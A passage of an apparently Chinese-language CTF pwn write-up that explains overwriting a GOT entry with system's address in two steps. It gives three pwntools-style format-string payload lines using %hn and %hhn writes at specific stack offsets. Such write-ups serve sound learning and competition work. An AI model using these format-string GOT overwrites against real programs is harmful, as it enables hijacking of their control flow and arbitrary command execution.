 [![](assets/1701678450-3e1fd3883461130dbf03a05f3b5b74ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211109-c300d764-8eb8-1.png)  
然后就是先修改2个字节，再错位改一下got表地址

```plain
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
```

[![](assets/1701678450-09f2a3c98babfb5f70da0ead6839888f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211122-cb0da2f2-8eb8-1.png)

[![](assets/1701678450-1d21a434d08d56a1eb20fd15034813a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211126-cd950a6a-8eb8-1.png)  
然后再改一字节，就成功改完了

```plain
sla('start','%'+str(system2)+'c%18$hhn')
```
